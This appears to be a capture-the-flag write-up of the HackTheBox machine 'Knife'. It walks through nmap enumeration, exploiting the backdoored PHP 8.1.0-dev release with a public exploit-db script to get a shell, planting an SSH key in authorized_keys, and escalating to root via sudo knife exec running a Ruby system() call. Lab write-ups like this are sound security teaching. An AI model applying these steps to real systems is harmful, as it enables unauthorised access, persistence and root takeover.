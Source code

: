 ```yaml
---
title: Knife
date: 2021-06-04 22:20:00 +0200
categories: [machine]
tags: [hackthebox]
toc: false
---
```


# Enumeration
## NMAP Scan
Apache 2.4.41 (Port 80) and OpenSSH (Port 22) are running on this machine.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $sudo nmap -sC -sV 10.10.10.242
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-04 18:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Website
Upon visiting the website, not much is remarkable. No form, no hidden folders/files or anything else.
![](/assets/img/knife_box.png#center)
## Vulnerability
The running services do not seem to be vulnerable, so lets check the PHP version.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $nmap -sC -sV 10.10.10.242 --script=http-php-version
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-04 18:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.065s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-php-version: Version from header x-powered-by: PHP/8.1.0-dev
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Bingo - `PHP 8.1.0-dev` - that looks promising
# Exploitation
[PHP verion 8.1.0-dev](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) was released with a backdoor in March 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agent header.
With a [POC script](https://www.exploit-db.com/exploits/49933) from exploit-db we get access to a shell.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $python 49933.py 
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
$ whoami
james
$ echo "ssh-rsa AAAAB3Nza...6ZMeJjY1iiRM= x7f@pWnbox" >> ~/.ssh/authorized_keys
```
Working with this shell is kinda wack. Let's add our ssh public key to the authorized_keys file. By doing so we can now ssh into the machine with the user James - without being asked for a password.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $ssh james@10.10.10.242
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-72-generic x86_64)
...
james@knife:~$ cat user.txt
```
We got the first flag, now it's time for the second one.
# Root
Before running automated scripts, let's run `sudo -l` and check what we can run as root.
``` bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Lets run it and check what we can do with it.
``` bash
james@knife:~$ sudo knife
ERROR: You need to pass a sub-command (e.g., knife SUB-COMMAND)

Usage: knife sub-command (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.
        --config-option OPTION=VALUE Override a single configuration option.
        --defaults                   Accept default values for all questions.
    -d, --disable-editing            Do not open EDITOR, just accept the data as is.
    -e, --editor EDITOR              Set the editor to use for interactive commands.
    -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
        --[no-]fips                  Enable FIPS mode.
...
** EXEC COMMANDS **
knife exec [SCRIPT] (options)
...
```
Great, we can run scripts - now we just need to find out what kind of scripts are accepted.
``` bash
james@knife:~$ cat /usr/bin/knife
#!/opt/chef-workstation/embedded/bin/ruby --disable-gems
#--APP_BUNDLER_BINSTUB_FORMAT_VERSION=1--
require "rubygems"
```
Looks like Ruby. So let's try to run a Ruby script.
``` bash
james@knife:~$ echo "system('cat /root/root.txt');" > root.rb
james@knife:~$ sudo knife exec root.rb
```
We got the second flag and we are done here. ٩(◕‿◕｡)۶
